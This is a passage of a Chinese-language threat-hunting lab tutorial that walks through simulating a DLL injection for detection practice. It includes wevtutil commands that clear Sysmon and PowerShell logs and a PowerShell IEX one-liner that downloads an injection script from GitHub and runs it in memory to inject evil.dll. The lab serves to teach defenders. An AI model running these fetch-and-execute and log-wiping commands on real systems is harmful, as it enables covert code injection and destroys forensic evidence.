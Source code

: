 [![](assets/1700442730-4805874552d1a13e50fde096f2161ede.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117162739-2b859e4a-8523-1.png)

**3.2 执行注入**  
（1）开启WireShark捕获数据包。选择正确的网卡设备进行监听

（2）清除系统当前Sysmon和PowerShell ScriptBlock日志

```plain
以管理员身份打开 PowerShell 终端，运行以下两个命令：
```

```plain
wevtutil cl “Microsoft-Windows-Sysmon/Operational”wevtutil cl “Microsoft-Windows-PowerShell/Operational”
```

（3）准备Powershell脚本  
该脚本具备实现DLL注入的功能，目的是将evil.dll注入至目标进程。项目参考PowerSpolit或者Faanross。以管理员打开powershell下载脚本并注入内存，操作如下：

```plain
IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/faanross/threat.hunting.course.01.resources/main/Invoke-DllInjection-V2.ps1')
```

若无任何输出，则表示执行成功。
